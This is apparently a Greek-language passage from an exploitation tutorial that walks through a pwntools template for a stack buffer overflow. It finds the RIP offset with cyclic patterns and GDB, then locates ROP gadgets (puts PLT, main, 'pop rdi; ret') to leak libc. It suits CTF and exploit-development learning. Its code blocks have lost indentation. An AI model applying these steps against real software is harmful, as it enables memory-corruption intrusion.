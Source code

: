# 1- Εύρεση της μετατόπισης

Το πρότυπο χρειάζεται μια μετατόπιση πριν συνεχίσει με την εκμετάλλευση. Αν δεν δοθεί καμία, θα εκτελέσει τον απαραίτητο κώδικα για να την βρει (από προεπιλογή `OFFSET = ""`):
```bash
###################
### Find offset ###
###################
OFFSET = ""#"A"*72
if OFFSET == "":
gdb.attach(p.pid, "c") #Attach and continue
payload = cyclic(1000)
print(r.clean())
r.sendline(payload)
#x/wx $rsp -- Search for bytes that crashed the application
#cyclic_find(0x6161616b) # Find the offset of those bytes
return
```
**Εκτελέστε** `python template.py` και θα ανοίξει μια κονσόλα GDB με το πρόγραμμα να καταρρέει. Μέσα σε αυτήν την **κονσόλα GDB**, εκτελέστε `x/wx $rsp` για να πάρετε τα **bytes** που θα αντικαταστήσουν το RIP. Τέλος, πάρτε την **απόσταση** χρησιμοποιώντας μια **κονσόλα python**:
```python
from pwn import *
cyclic_find(0x6161616b)
```
![](<../../../.gitbook/assets/image (140).png>)

Αφού βρεθεί η απόκλιση (σε αυτήν την περίπτωση 40), αλλάξτε τη μεταβλητή OFFSET μέσα στο πρότυπο χρησιμοποιώντας αυτήν την τιμή.\
`OFFSET = "A" * 40`

Μια άλλη μέθοδος θα ήταν να χρησιμοποιήσετε: `pattern create 1000` -- _εκτέλεση μέχρι το ret_ -- `pattern search $rsp` από το GEF.

# 2- Εύρεση Gadgets

Τώρα πρέπει να βρούμε τα ROP gadgets μέσα στο δυαδικό αρχείο. Αυτά τα ROP gadgets θα είναι χρήσιμα για να καλέσουν τη συνάρτηση `puts` για να βρούν τη **libc** που χρησιμοποιείται και αργότερα για να **εκτελέσουν την τελική επίθεση**.
```python
PUTS_PLT = elf.plt['puts'] #PUTS_PLT = elf.symbols["puts"] # This is also valid to call puts
MAIN_PLT = elf.symbols['main']
POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0] #Same as ROPgadget --binary vuln | grep "pop rdi"
RET = (rop.find_gadget(['ret']))[0]

log.info("Main start: " + hex(MAIN_PLT))
log.info("Puts plt: " + hex(PUTS_PLT))
log.info("pop rdi; ret  gadget: " + hex(POP_RDI))
```
Το `PUTS_PLT` χρειάζεται για να καλέσει τη **συνάρτηση puts**.\
Το `MAIN_PLT` χρειάζεται για να καλέσει ξανά τη **κύρια συνάρτηση** μετά από μια αλληλεπίδραση για να **εκμεταλλευτεί** την **υπερχείλιση** ξανά (άπειρους γύρους εκμετάλλευσης). **Χρησιμοποιείται στο τέλος κάθε ROP για να καλέσει ξανά το πρόγραμμα**.\
Το **POP\_RDI** χρειάζεται για να **περάσει** ένα **παράμετρο** στην κληθείσα συνάρτηση.
